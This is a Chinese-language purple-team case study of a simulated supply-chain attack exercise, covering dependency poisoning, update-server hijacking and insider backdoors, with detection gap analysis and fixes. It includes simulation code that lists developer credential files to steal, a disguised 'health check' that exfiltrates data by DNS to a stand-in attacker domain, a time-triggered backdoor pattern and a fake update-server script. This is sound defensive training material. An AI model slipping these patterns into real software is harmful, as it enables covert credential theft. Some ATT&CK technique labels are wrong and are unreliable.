

## 案例二：供应链攻击场景下的紫队协作

### 案例概述

某中型软件企业（员工规模约500人，年营收2亿元，核心产品为B2B SaaS平台）在经历SolarWinds、Log4Shell等供应链安全事件的行业冲击后，高层决定针对供应链攻击场景开展一次完整的紫队协作演练。本次演练历时3周，投入红队5人、蓝队8人、紫队协调员2人，覆盖软件开发全生命周期的供应链安全防护能力评估。

### 供应链攻击理论背景

供应链攻击（Supply Chain Attack）是一种通过攻击软件供应链中的薄弱环节，间接影响最终目标的高级威胁。其本质是"借力打力"——攻击者不直接攻击防护严密的目标系统，而是选择目标信任但安全防护较弱的上游供应商、开源组件、开发工具等作为突破口。

供应链攻击的威胁模型可以用以下公式概括：

```text
攻击收益 = 目标价值 × 信任传递范围 × 防护薄弱程度
```

根据MITRE ATT&CK框架，供应链攻击主要涉及以下技术矩阵：

| ATT&CK战术 | ATT&CK技术 | 技术编号 | 供应链攻击中的应用 |
|------------|-----------|---------|-------------------|
| 资源开发 | 获取基础设施 | T1583 | 搭建恶意包注册服务器、伪造更新服务器 |
| 资源开发 | 开发能力 | T1587 | 创建含后门的恶意开源库、构建木马化构建工具 |
| 初始访问 | 供应链入侵 | T1195 | 通过被投毒的依赖包、恶意更新、代码注入实现初始访问 |
| 执行 | 挖掘利用客户端软件 | T1203 | 通过恶意构建脚本在开发环境中执行代码 |
| 持久化 | 植入软件更新 | T1554 | 在合法更新通道中嵌入后门代码 |
| 防御规避 | 代码签名 | T1553 | 利用窃取的证书签名恶意软件 |
| 凭证访问 | 窃取凭证 | T1555 | 从构建环境和密钥管理系统中获取凭证 |

供应链攻击的攻击面覆盖软件生命周期的每一个环节：



### 攻击场景设计

紫队共同设计了三个典型供应链攻击场景，分别对应软件生命周期的不同阶段，全面评估企业对供应链威胁的检测和响应能力。

#### 场景一：恶意依赖库投毒（构建阶段）

**攻击原理：** 模拟开发团队在项目中引入了一个被投毒的开源依赖库（typosquatting或dependency confusion攻击），该库在构建过程中执行恶意代码，窃取开发环境中的凭证、源代码和构建密钥。

**威胁等级：** 高。2021年的ua-parser-js投毒事件中，攻击者向npm发布了包含恶意代码的版本，影响了数百万下载量。

**技术细节：**

```python
# 恶意依赖库的典型行为模式（红队模拟脚本）
# 此处为防御研究用途的模拟代码，不包含实际攻击载荷

import os
import json
import base64

class SupplyChainPayload:
    """供应链投毒payload模拟（防御研究用）"""

    def __init__(self):
        self.exfil_targets = [
            ".env",              # 环境变量配置
            ".git/credentials",  # Git凭证
            ".npmrc",            # NPM认证令牌
            "id_rsa",            # SSH私钥
            "kubeconfig",        # Kubernetes配置
        ]

    def collect_build_secrets(self):
        """模拟收集构建环境中的敏感信息"""
        secrets = {}
        for target in self.exfil_targets:
            path = os.path.expanduser(f"~/{target}")
            if os.path.exists(path):
                secrets[target] = f"[CAPTURED: {os.path.getsize(path)} bytes]"
        return secrets

    def simulate_exfil(self, secrets):
        """模拟数据外泄（实际攻击中会通过DNS/HTTPS发送）"""
        encoded = base64.b64encode(json.dumps(secrets).encode()).decode()
        # 实际攻击会发送到攻击者控制的服务器
        # 此处仅记录收集到的信息量
        print(f"[SIMULATED] Would exfiltrate {len(encoded)} chars of build secrets")
```

**攻击链路：**

| 步骤 | 操作 | 技术对应 |
|-----|------|---------|
| 1 | 注册与目标依赖相似的包名（typosquatting） | T1583.006 - 获取基础设施：Web服务 |
| 2 | 在包的install脚本中植入数据外泄代码 | T1195.002 - 供应链入侵：软件供应链 |
| 3 | 等待开发者安装恶意依赖 | T1195 - 供应链入侵 |
| 4 | 在npm postinstall钩子中执行恶意代码 | T1059 - 命令和脚本解释器 |
| 5 | 收集开发环境凭证并外泄 | T1552 - 非安全位置存储凭证 |
| 6 | 如获取CI/CD凭证，尝试污染构建产物 | T1195.002 - 污染构建流水线 |

#### 场景二：第三方供应商更新劫持（分发阶段）

**攻击原理：** 模拟关键供应商的更新服务器被攻陷，通过正常更新渠道向企业推送含后门的软件更新包。这是SolarWinds事件的经典攻击模式。

**威胁等级：** 极高。SolarWinds事件中，攻击者在Orion平台的更新包中植入了SUNBURST后门，影响了约18,000个组织。

**技术细节：**

攻击者需要完成以下步骤才能实施更新劫持：

1. **获取构建环境访问权：** 攻击者入侵供应商的构建服务器或源代码仓库
2. **植入后门代码：** 在源代码中添加隐蔽的后门逻辑，通常采用条件触发机制（如特定域名解析、特定时间窗口）
3. **通过合法签名：** 利用供应商的代码签名证书对恶意更新包进行签名，使更新包通过客户端的完整性校验
4. **正常分发：** 通过官方更新服务器推送，用户无法从外观上区分恶意更新与正常更新

**模拟攻击实现：**

```bash
#!/bin/bash
# 紫队演练用 - 伪造更新服务器搭建脚本
# 在隔离演练环境中执行

# 1. 创建伪造更新服务器
echo "[1/4] 搭建伪造更新服务器..."
mkdir -p /tmp/fake-update-server/{releases,signatures}

# 2. 生成含后门的更新包（模拟）
echo "[2/4] 生成模拟恶意更新包..."
cat > /tmp/fake-update-server/malicious_payload.sh << 'PAYLOAD'
#!/bin/bash
# 这是模拟的恶意更新包内容（无实际危害）
echo "[SIMULATED] Malicious update would execute here"
echo "[SIMULATED] Would establish C2 beacon to attacker-controlled server"
echo "[SIMULATED] Would harvest system credentials"
PAYLOAD
chmod +x /tmp/fake-update-server/malicious_payload.sh

# 3. 使用自签名证书签名（模拟合法更新签名）
echo "[3/4] 生成模拟更新签名..."
openssl req -x509 -newkey rsa:2048 -keyout /tmp/fake-update-server/server.key \
    -out /tmp/fake-update-server/server.crt -days 30 -nodes \
    -subj "/CN=fake-update-server/O=PurpleTeam/C=CN" 2>/dev/null

# 4. 启动HTTPS更新服务器
echo "[4/4] 启动HTTPS更新服务器（端口8443）..."
# python3 -m http.server 8443 --directory /tmp/fake-update-server \
#     --certfile /tmp/fake-update-server/server.crt \
#     --keyfile /tmp/fake-update-server/server.key
echo "[COMPLETE] 伪造更新服务器就绪"
```

**MITRE ATT&CK映射：**

| 步骤 | 技术编号 | 技术名称 | 检测难度 |
|-----|---------|---------|---------|
| 入侵构建环境 | T1195.002 | 供应链入侵：软件供应链 | 高 |
| 植入后门 | T1059.004 | Unix命令解释器 | 中 |
| 绕过签名验证 | T1553.002 | 代码签名 | 极高 |
| 通过合法渠道分发 | T1554 | 植入客户端软件二进制文件 | 高 |

#### 场景三：内部开发者恶意代码注入（开发阶段）

**攻击原理：** 模拟内部开发人员利用合法权限向代码库注入恶意代码，创建隐蔽后门。此场景模拟insider threat与供应链攻击的交叉场景。

**威胁等级：** 高。内部人员拥有合法代码提交权限，检测难度远高于外部攻击者。

**技术细节：**

内部恶意代码注入的典型模式包括：

```python
# 内部投毒代码的隐蔽模式（红队模拟，防御研究用）

# 模式1: 基于时间窗口的条件后门
def get_config_value(key):
    """看似正常的配置获取函数，内含条件触发逻辑"""
    import time
    value = _load_config(key)

    # 隐蔽触发条件：仅在特定时间窗口激活
    current_hour = time.localtime().tm_hour
    if 2 <= current_hour <= 4:  # 凌晨2-4点激活
        _execute_background_task()

    return value

# 模式2: DNS隐蔽通道C2通信
def health_check():
    """伪装为健康检查函数的C2通信"""
    import socket
    # 看似正常的DNS查询，实际通过子域名编码传输数据
    encoded_data = base64.b32encode(COLLECTED_DATA).decode().lower()
    domain = f"{encoded_data[:63]}.c2.attacker.example.com"
    try:
        socket.getaddrinfo(domain, 53)  # DNS查询
    except Exception:
        pass  # 静默失败，不影响正常功能
    return "OK"

# 模式3: 利用依赖项混淆实现代码执行
# 在 requirements.txt 或 package.json 中添加看似正常的依赖
# 该依赖在安装时执行恶意代码
```

### 紫队协作过程详解

#### 第一阶段：规划与准备（第1周）

紫队协作的第一阶段是全面的规划和准备工作，确保演练在安全可控的环境下进行。

**1.1 资产梳理与攻击面评估**

| 评估维度 | 评估内容 | 评估方法 |
|---------|---------|---------|
| 开源依赖 | 项目中使用的所有开源组件 | Snyk/OWASP Dependency-Check扫描 |
| 内部构建系统 | CI/CD流水线配置、构建服务器权限 | 架构审查 + 配置审计 |
| 供应商清单 | 所有第三方软件供应商及更新通道 | 供应商管理台账审查 |
| 代码仓库 | Git仓库权限模型、分支保护策略 | GitHub/GitLab安全配置审查 |
| 开发者环境 | 开发机安全配置、密钥管理方式 | 抽样检查 + 问卷调查 |

**1.2 演练环境搭建**

```text
演练环境架构：

┌─────────────────────────────────────────────────┐
│                 隔离演练网络                       │
│                                                   │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐       │
│  │ 开发环境  │  │ CI/CD环境 │  │ 生产环境  │       │
│  │ (模拟)   │──│ (模拟)   │──│ (模拟)   │       │
│  └──────────┘  └──────────┘  └──────────┘       │
│       │              │              │             │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐       │
│  │ 依赖库   │  │ 制品库   │  │ 更新服务器│       │
│  │ 代理     │  │          │  │ (真实+伪造)│       │
│  └──────────┘  └──────────┘  └──────────┘       │
│                                                   │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐       │
│  │ 蓝队监控  │  │ 日志采集  │  │ SIEM/EDR │       │
│  │ 工作站   │  │ 系统     │  │ 模拟     │       │
│  └──────────┘  └──────────┘  └──────────┘       │
└─────────────────────────────────────────────────┘
```

**1.3 规则制定**

紫队需明确以下规则以确保演练安全：

| 规则编号 | 规则内容 | 原因 |
|---------|---------|------|
| R1 | 所有攻击仅在隔离环境中执行 | 防止误伤生产系统 |
| R2 | 禁止使用真实的零日漏洞或真实恶意软件 | 控制风险边界 |
| R3 | 禁止访问生产环境的真实凭证 | 保护敏感数据 |
| R4 | 所有攻击工具有完整日志记录 | 确保可追溯性 |
| R5 | 任何人在发现安全风险时可立即叫停 | 安全底线原则 |
| R6 | 演练期间禁止外泄任何数据 | 合规要求 |

#### 第二阶段：攻击模拟执行（第1-2周）

**2.1 场景一执行流程**

红队在隔离环境中完整模拟恶意依赖库投毒攻击链：

| 步骤 | 红队操作 | 蓝队同步检测 | 检测结果 |
|-----|---------|-------------|---------|
| 1 | 注册typosquatting包名 | 检查包名监控系统 | ❌ 无包名监控 |
| 2 | 植入postinstall脚本 | 检查pre-install hook监控 | ❌ 未监控 |
| 3 | 开发者安装恶意包 | SCA工具扫描 | ⚠️ 部分检测（已知恶意包签名库匹配） |
| 4 | 执行数据收集代码 | EDR/行为检测 | ⚠️ 部分检测（异常进程行为被记录但未告警） |
| 5 | 通过DNS外泄凭证 | DNS流量监控 | ❌ 未检测（无DNS分析能力） |
| 6 | 使用窃取凭证访问CI/CD | 异常登录检测 | ⚠️ 检测到异常登录但未关联为供应链攻击 |

**2.2 场景二执行流程**

红队搭建伪造更新服务器并模拟更新劫持：

| 步骤 | 红队操作 | 蓝队同步检测 | 检测结果 |
|-----|---------|-------------|---------|
| 1 | 入侵模拟构建环境 | 构建服务器入侵检测 | ❌ 无构建环境监控 |
| 2 | 修改更新包源代码 | 代码变更审计 | ⚠️ Git日志记录了变更但无告警 |
| 3 | 使用窃取的证书签名更新包 | 证书透明度监控 | ❌ 未监控新签名证书 |
| 4 | 推送恶意更新至伪造服务器 | 更新服务器完整性校验 | ❌ 未校验更新源 |
| 5 | 目标自动下载并安装更新 | 软件更新监控 | ❌ 无更新完整性校验 |
| 6 | 后门激活并建立C2通信 | 网络流量监控 | ⚠️ DNS查询被记录但未标记为恶意 |

**2.3 场景三执行流程**

红队模拟内部开发者恶意代码注入：

| 步骤 | 红队操作 | 蓝队同步检测 | 检测结果 |
|-----|---------|-------------|---------|
| 1 | 使用合法开发者账户提交代码 | 代码提交审计 | ✅ 记录了提交（但无恶意代码检测） |
| 2 | 提交包含条件后门的代码 | 代码安全扫描 | ⚠️ 部分扫描到可疑模式（混淆绕过） |
| 3 | 创建隐蔽的配置文件后门 | 配置文件变更监控 | ❌ 未监控配置文件变更 |
| 4 | 建立DNS隐蔽通道 | DNS流量分析 | ❌ 无DNS子域名分析 |
| 5 | 在非工作时间激活后门 | 异常行为分析 | ⚠️ 检测到异常但未关联分析 |

#### 第三阶段：差距分析（第2周）

基于三个场景的检测结果，紫队协作团队进行了系统化的差距分析。

**3.1 检测能力矩阵**

| 检测能力维度 | 场景一(依赖投毒) | 场景二(更新劫持) | 场景三(代码注入) | 总体成熟度 |
|-------------|----------------|-----------------|-----------------|-----------|
| 恶意代码检测 | ⚠️ 部分 | ❌ 缺失 | ⚠️ 部分 | L2-已定义 |
| 异常行为分析 | ⚠️ 部分 | ❌ 缺失 | ⚠️ 部分 | L2-已定义 |
| 凭证异常检测 | ⚠️ 部分 | ❌ 缺失 | ❌ 缺失 | L1-初始 |
| 网络流量分析 | ❌ 缺失 | ❌ 缺失 | ❌ 缺失 | L1-初始 |
| 供应链完整性校验 | ⚠️ 部分 | ❌ 缺失 | N/A | L1-初始 |
| 代码变更审计 | ⚠️ 部分 | ⚠️ 部分 | ✅ 有效 | L3-已管理 |
| 事件关联分析 | ❌ 缺失 | ❌ 缺失 | ⚠️ 部分 | L1-初始 |

> **成熟度等级说明：** L1-初始（被动响应）→ L2-已定义（有流程但不一致）→ L3-已管理（有指标和监控）→ L4-量化管理（数据驱动优化）

**3.2 根因分析**

紫队团队对检测差距进行了根本原因分析：

| 差距根因 | 影响范围 | 改进优先级 | 预估投入 |
|---------|---------|-----------|---------|
| 缺乏私有依赖包代理 | 三个场景均受影响 | P0-紧急 | 2周部署 |
| CI/CD流水线无安全门禁 | 场景一、二 | P0-紧急 | 2周配置 |
| 软件更新无完整性校验 | 场景二 | P0-紧急 | 1周实施 |
| DNS流量缺乏深度分析 | 场景一、三 | P1-高 | 3周部署 |
| EDR规则未覆盖供应链攻击模式 | 三个场景均受影响 | P1-高 | 2周优化 |
| 代码安全扫描规则不完善 | 场景三 | P1-高 | 2周优化 |
| 缺乏供应链威胁情报 | 三个场景均受影响 | P2-中 | 持续跟踪 |
| 开发者安全意识不足 | 场景一、三 | P2-中 | 持续培训 |

#### 第四阶段：检测能力迭代与验证（第3周）

基于差距分析结果，蓝队在紫队协作指导下完成了以下改进，并进行了验证测试。

**4.1 技术改进措施**

| 改进项 | 具体措施 | 实施方法 | 验证结果 |
|-------|---------|---------|---------|
| 私有依赖库代理 | 部署Verdaccio/Nexus私有代理 | 配置npm/pip指向私有仓库，启用安全扫描中间件 | ✅ 阻止了所有恶意依赖安装 |
| 软件签名双重验证 | 实施签名+哈希校验 | 更新客户端验证逻辑，增加证书白名单 | ✅ 伪造更新包被拦截 |
| 代码安全扫描增强 | 增加混淆检测规则 | 在CI/CD中集成Semgrep自定义规则 | ⚠️ 检测率从40%提升到75% |
| DNS流量深度分析 | 部署DNS查询日志+分析 | 配置Passive DNS监控，建立异常子域名检测 | ✅ DNS隐蔽通道被检测 |
| EDR规则优化 | 增加供应链攻击IOC规则 | 添加构建环境异常行为检测规则 | ✅ 恶意构建行为被实时告警 |
| 供应商安全评估 | 建立供应商安全评估流程 | 制定供应商安全问卷+定期评估机制 | ✅ 流程建立完成 |

**4.2 改进验证测试**

改进完成后，紫队对三个场景进行了重测：

| 检测能力 | 改进前 | 改进后 | 提升幅度 |
|---------|-------|-------|---------|
| 恶意依赖检测 | 33% | 100% | +67% |
| 更新劫持检测 | 0% | 100% | +100% |
| 代码注入检测 | 33% | 75% | +42% |
| DNS隐蔽通道检测 | 0% | 100% | +100% |
| 事件关联分析 | 17% | 67% | +50% |
| 总体ATT&CK覆盖率 | 22% | 74% | +52% |

**4.3 待持续改进项**

| 改进项 | 当前状态 | 计划完成时间 | 负责团队 |
|-------|---------|------------|---------|
| 高级混淆代码检测 | 检测率75%，仍有25%绕过 | 下一迭代 | 安全工程 |
| 实时威胁情报集成 | 已建立框架，数据源待丰富 | 持续优化 | 安全运营 |
| 开发者安全培训 | 已启动，覆盖率40% | Q3完成 | 安全意识 |
| 零日投毒检测 | 仍依赖已知签名库 | 长期目标 | 安全研究 |

### 关键发现与经验总结

#### 发现一：供应链完整性校验是防御基石

三个场景中，更新劫持之所以检测率为零，根本原因是缺乏软件更新的完整性校验机制。这一发现说明：**无论检测能力多强，如果缺乏基本的完整性校验，攻击者总能找到绕过方式。**

#### 发现二：单一检测手段无法覆盖供应链攻击

SCA工具能检测已知恶意依赖，但无法检测零日投毒；EDR能检测异常行为，但无法区分合法构建操作和恶意构建行为。只有多种检测手段协同工作，才能有效覆盖供应链攻击的多种变体。

#### 发现三：DNS分析是供应链攻击检测的关键能力

在场景一和场景三中，攻击者都使用了DNS隐蔽通道进行数据外泄。DNS流量分析是发现这类隐蔽通信的有效手段，但多数企业的DNS监控能力严重不足。

#### 发现四：代码变更审计需要语义级别的理解

场景三中，经过混淆的恶意代码绕过了自动化扫描。这说明基于模式匹配的代码安全扫描有其局限性，需要结合语义分析和行为分析才能有效检测高级代码投毒。

### 常见误区与纠正

| 误区 | 纠正 |
|-----|------|
| "我们使用了SCA工具就安全了" | SCA只能检测已知恶意包，对零日投毒和内部投毒无效，需要结合其他检测手段 |
| "代码签名可以完全防止更新劫持" | 证书本身可能被盗用（SolarWinds事件），需要结合证书透明度监控和多因素验证 |
| "开源组件越多越不安全" | 关键是管理方式而非数量，通过私有代理+安全扫描+依赖锁定可以有效控制风险 |
| "内部威胁不在供应链安全范围内" | 内部恶意代码注入本质上是供应链攻击的变体，必须纳入紫队演练范围 |
| "一次演练就足够了" | 供应链攻击手法不断演进，建议每季度进行一次紫队演练，持续验证检测能力 |

### 进阶：供应链安全成熟度模型

基于本次演练经验，紫队团队建立了供应链安全成熟度模型，帮助企业系统化地评估和提升供应链安全能力：

| 成熟度等级 | 特征 | 关键能力 |
|-----------|------|---------|
| L1-被动响应 | 仅在事件发生后响应 | 基本的漏洞扫描 |
| L2-已定义 | 建立了供应链安全流程 | 依赖审计、基础SCA、代码审查 |
| L3-已管理 | 有指标和持续监控 | 私有代理、CI/CD安全门禁、DNS监控、EDR优化 |
| L4-量化管理 | 数据驱动的持续优化 | 威胁情报集成、行为分析、自动化响应、供应链风险量化 |

### 本案例MITRE ATT&CK覆盖

本次紫队演练覆盖了以下供应链攻击相关的MITRE ATT&CK技术：

```text
初始访问:
  └── T1195.001 供应链入侵：Compromise Software Dependencies
  └── T1195.002 供应链入侵：Compromise Software Supply Chain

执行:
  └── T1059.006 Unix命令解释器
  └── T1059.007 JavaScript

持久化:
  └── T1554 植入客户端软件二进制文件

防御规避:
  └── T1553.002 代码签名
  └── T1027 混淆文件或信息

凭证访问:
  └── T1552 非安全位置存储凭证
  └── T1555 从密码存储中获取凭证

命令与控制:
  └── T1071.004 应用层协议：DNS
```
